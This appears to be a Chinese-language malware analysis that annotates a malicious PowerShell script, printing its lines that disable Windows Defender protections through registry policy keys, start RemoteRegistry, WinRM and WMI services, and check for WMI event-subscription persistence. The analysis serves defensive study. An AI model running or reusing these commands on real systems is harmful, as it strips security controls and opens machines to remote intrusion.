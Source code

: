 ```powershell linenums="1"
function Test-Wow64() {
    return (Test-Win32) -and (test-path env:\PROCESSOR_ARCHITEW6432)
}
function Test-Win32() {
    return [IntPtr]::size -eq 4
}
```

7-11 行禁用 Windows Defender 的多项安全功能：

- 实时监控
- 反间谍软件保护
- 行为监控
- 文件访问保护
- 实时扫描

```powershell linenums="7"
Set-MpPreference -DisableRealtimeMonitoring $true | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableBehaviorMonitoring /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableOnAccessProtection /t REG_DWORD /d 1 /f | Out-Null
Reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableScanOnRealtimeEnable /t REG_DWORD /d 1 /f | Out-Null
```

13-18 行开启多个网络服务和远程管理服务：

- RPC 服务
- RPC 定位器服务
- 远程注册表服务
- RPC 端点映射器
- WMI 服务
- 远程管理服务

```powershell linenums="13"
net start RpcSs | Out-Null
net start RpcLocator | Out-Null
net start RemoteRegistry | Out-Null
net start RpcEptMapper | Out-Null
net start Winmgmt | Out-Null
net start WinRM | Out-Null
```

19-30 行检查系统中是否已经存在 WMI 持久化，以此判断恶意软件是否安装过：

```powershell linenums="19"
$a=([string](Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Systems Manage%'" | SELECT __Path));
$b=([string](geT-WMIOBJeCt -Namespace root\Subscription -Class __EventFilter -filter "Name= 'Systems Manage Filter'" | SELECT Name));
$c=([string](geT-WMIOBJeCt -Namespace root\Subscription -Class CommandLineEventConsumer -filter "Name= 'Systems Manage Consumer'" | SELECT Name));
if(($a -eq $null) -or ($b -eq $null) -or ($c -eq $null)){
    $IsInstalled = $False
}else{
  if(($a -eq "") -or ($b -eq "") -or ($c -eq "")){
      $IsInstalled = $False
  }else{
      $IsInstalled = $True
  }
}
```
